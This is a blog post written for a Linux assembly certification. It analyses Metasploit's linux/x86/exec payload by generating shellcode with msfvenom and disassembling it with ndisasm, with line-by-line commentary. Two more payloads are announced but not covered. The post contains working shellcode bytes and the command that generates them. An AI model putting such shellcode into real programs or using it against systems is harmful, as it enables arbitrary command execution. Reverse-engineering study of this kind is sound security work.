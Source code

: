 ```yaml
---
title: SLAE32 - Assignment#5 [Shellcode Analysis]
author: bigb0ss
date: 2021-04-25 23:53:00 +0800
categories: [SLAE32, Assignment_5_Analysis]
tags: [slae32, assembly, x86, Shellcode Analysis]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#5 Github](https://github.com/bigb0sss/SLAE32)

# Assignement #5 
* Take up at least 3 shellcode samples created using msfpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis

# Msfpayload Shellcode Analysis
Today I will analyze the following shellcodes generated by the msfpayload, specifically for linux/x86:
* linux/x86/exec - Execute an arbitrary command
* linux/x86/shell/bind_tcp - Spawn a command shell (staged). Listen for a connection (Linux x86)
* linux/x86/shell/reverse_tcp - Spawn a command shell (staged). Connect back to the attacker

# 1) linux/x86/exec
This msfpayload will execute an arbitrary command that you add while creating a payload. Let's create the payload with the linux command `id`.

```bash
# msfvenom -p linux/x86/exec CMD=id -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 38 bytes
Final size of c file: 185 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00\x00\x69"
"\x64\x00\x57\x53\x89\xe1\xcd\x80";
```

Then, we will use `ndisasm` - the Netwide Disassembler - to disassemble the created shellcode. 

```console
# echo -ne "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00\x00\x69\x64\x00\x57\x53\x89\xe1\xcd\x80" | ndisasm -b 32 -

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E803000000        call 0x20
0000001D  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953
00000025  80                db 0x80


### echo:
-n : Do not output the trailing newline
-e : Enable interpretation of backslash escapes

### ndisasm
-b : Set the processor mode
```

Let's analyze the disassembled payload.

```nasm

00000000  6A0B              push byte +0xb	; Pushing a single byte 0xb. 0xb = 11 in decimal which is "Execve" syscall in the unistd_32.h library. 
	;
																		; # cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 11
																		; #define __NR_execve 11

00000002  58                pop eax										; [EAX = 0xb] Storing the single byte 0xb into the EAX register so that we can call "Execve" from the EAX register.
																		;
																		; ================================ Execve Layout Example ================================
																		; int execve(const char *filename, char *const argv[], char *const envp[]);
																		;            -------- EBX -------- ------- ECX ------- ------- EDX --------
																		;                      ⬇                   ⬇                  ⬇
																		;                  "filename"       "Addr of filename"     "0x00000000"
																		; =======================================================================================

00000003  99                cdq											; [EDX = 0x0] Zeroing out the EDX register by copying the sign bit in the EAX register to every bit position in the EDX. (Since no sign bit is set in EAX, all value is 0)

00000004  52                push edx 									; Pushing EDX (0x0) onto the stack

00000005  66682D63          push word 0x632d							; Pushing 0x632d ('-c') onto the stack
																		;
																		; >>> print('\x63\x2d')
																		; c-

00000009  89E7              mov edi,esp									; [EDI = '-c'] Moving current stack (ESP = '-c') into the EDI register 

0000000B  682F736800        push dword 0x68732f							; Pushing 0x68732f ('/sh') onto the stack
																		;
																		; >>> print('\x68\x73\x2f')
																		; hs/

00000010  682F62696E        push dword 0x6e69622f						; Pushing 0x6e69622f ('/bin') onto the stack
																		;
																		; >>> print('\x6e\x69\x62\x2f')
																		; nib/

00000015  89E3              mov ebx,esp 								; [EBX = '/bin/sh'] Moving current stack (ESP = '/bin/sh') into the EBX register

00000017  52                push edx 									; Pushing EDX (0x0) onto the stack

00000018  E803000000        call 0x20									; Pushing the return address (0x20) onto the stack --> which is \x57\x53\x89\xE1\xCD\x80

0000001D  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953	; 0x696400 = 'id' + null terminator
																		;
00000025  80                db 0x80										; 0x575389E1CD80 --> Disassmble it with ndisasm again:
																		; 
																		; # echo -ne "\x57\x53\x89\xE1\xCD\x80" | ndisasm -b 32 -
																		; 00000000  57                push edi 						; Pushing EDI ('-c') onto the stack
																		; 00000001  53                push ebx 						; Pushing EBX ('/bin/sh') onto the stack
																		; 00000002  89E1              mov ecx,esp 					; [ECX = '/bin/sh' '-c' 'id' '0x0'] Moving the current stack (ESP) to ECX
																		; 00000004  CD80              int 0x80 						; Handle system_call --> "Execve"
																		;
																		; Syscall: [EAX = 0xb = execve] [EBX = '/bin/sh'] [ECX = '/bin/sh' '-c' 'id' '0x0'] [EDX = 0x0]
```




<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#5 Github](https://github.com/bigb0sss/SLAE32)